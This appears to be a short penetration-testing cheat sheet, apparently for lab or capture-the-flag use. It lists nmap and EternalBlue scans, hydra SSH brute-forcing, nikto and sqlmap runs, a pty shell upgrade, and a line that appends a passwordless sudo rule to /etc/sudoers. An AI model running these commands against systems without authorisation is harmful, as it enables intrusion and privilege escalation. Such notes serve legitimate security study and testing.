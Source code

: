 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```


### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### linux enumeration 
```
enum4linux <IP>
```

### enumerate port 80
```
nikto -host http://<IP>
```
### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```

## ENCRYPTIONS AND DECRYPTIONS

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## PRIVILAGE ESCALATION

### Linux

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

